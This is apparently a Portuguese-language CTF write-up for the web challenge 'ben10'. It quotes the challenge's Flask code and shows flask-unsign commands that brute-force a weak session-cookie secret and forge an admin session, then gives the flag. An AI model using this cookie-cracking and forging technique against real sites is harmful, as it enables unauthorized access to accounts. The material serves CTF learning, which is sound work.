


# srdnlenCTF: ben10

**Categoria**: Web Exploitation\
**Dificuldade**: Facil (minha opiniao)

---

## Solução

### 1. Análise inicial

Ao acessar o site, vemos uma pagina de login com inputs para acessar logar, criar conta e ir para opcao de "Forgot Password"



---

### 2. Analisando o codigo 

O codigo da aplicacao web foi disponibilizado no desafio, bati o olho nas paginas estaticas e nao achei nada muito interessante, mas no codigo do backend que foi feito em Python usando o framework Flask, achei alguns metodos. E entre eles achei o seguinte metodo:

```py
@app.route('/image/<image_id>')
def image(image_id):
    """Display the image if user is admin or redirect with missing permissions."""
    if 'username' not in session:
        return redirect(url_for('login'))

    username = session['username']

    if image_id == 'ben10' and not username.startswith('admin'):
        return redirect(url_for('missing_permissions'))

    flag = None
    if username.startswith('admin') and image_id == 'ben10':
        flag = FLAG

    return render_template('image_viewer.html', image_name=image_id, flag=flag)
```

Logo, percebi que esse era o metodo que eu deveria usar para pegar a flag. Se analisarmos o codigo vemos que ele pega os **cookies** da sessao para pegar o **username** e faz verificacoes a partir daquele **username**. Entao basta eu conseguir manipular esse username para conseguir capturar a flag! No codigo diz que para pegar a flag o **image_id** precisa ser 'ben10' e o **username** precisa comecar com 'admin'. 

Ao procurar o trecho de codigo que consigo manipular esse dado achei o seguinte metodo:

```py
@app.route('/register', methods=['GET', 'POST'])
def register():
    """Handle user registration."""
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        if username.startswith('admin') or '^' in username:
            flash("I don't like admins", "error")
            return render_template('register.html')

        if not username or not password:
            flash("Both fields are required.", "error")
            return render_template('register.html')

        admin_username = f"admin^{username}^{secrets.token_hex(5)}"
        admin_password = secrets.token_hex(8)

        try:
            conn = sqlite3.connect(DATABASE)
            cursor = conn.cursor()
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (username, password, admin_username))
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
            conn.commit()
        except sqlite3.IntegrityError:
            flash("Username already exists!", "error")
            return render_template('register.html')
        finally:
            conn.close()

        flash("Registration successful!", "success")
        return redirect(url_for('login'))

    return render_template('register.html')
```

Como podemos ver, esse metodo eh para criar usuarios, voce passa o **username** e a **password** e ele insere esse usuario no banco de dados para poder fazer login posteriormente. A principio pensei em **SQLInjection**, porem ele estava usando o "?" na query e passando como parametro, assim o **SQLInjection** se torna incabivel (caso queria saber como me chame q eu explico ;) ). c

Continuando... O problema aqui esta no seguinte trecho:

```py
if username.startswith('admin') or '^' in username:
    flash("I don't like admins", "error")
    return render_template('register.html')
```

Onde nos proibe de criar um usuario que inicie com **admin**, porem eh essencial para conseguirmos capturar a flag no metodo 'image/image_id' mostrado anteriormente.

Logo, a unica opcao que nos resta eh manipular o **session cookie** que eh verificado no metodo que retorna a flag, ou seja, precisamos criar um usuario normal (ex: brg:brg) e apos fazer login com esse usuario, manipular o seu cookie, aqui esta uma imagem do meu navegador com o cookie apos eu logar como brg:brg




### 3. Quebrando o cookie

O meu cookie eh

```
eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY
```

Posso simplesmente decodificar o Base64, mas optei por usar o [jwt.io](https://jwt.io):


Com isso consigo ver que existe o valor do meu **username**, mas para manipula-lo eu preciso re-assinar o JWT novamente para funcionar. Achei [isso](https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering) no StackOverflow mostrando como usar a ferramenta **flask-unsign** do python, que basicamente faz um **brute force** para tentar achar a chave que foi usada para assinar aquele JWT.

Pesquisando uma boa lista para poder rodar o brute force, achei [essa](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list) no github com uma quantidade consideravel de strings. 

Enfim, rodei o seguinte comando:

```bash
flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY' --no-literal-eval -w jwt.secrets.list   
```

e com isso consegui descobrir que a chave usada eh:

```
your_secret_key
```

Agora acabou, so preciso mudar o Json e assina-lo com a chave secreta descoberta, usei o seguinte comando:

```bash
flask-unsign --sign --cookie "{'username':'admin'}" --secret 'your_secret_key'
```

e pronto!

peguei o JWT retornado e substitui na sessao do meu navegador, e acessei o seguinte metodo 'image/ben10' e la estava a **flag**

```
srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```

---

## Autor da WriteUp

[Membro de Networking - leandrobalta](https://github.com/leandrobalta)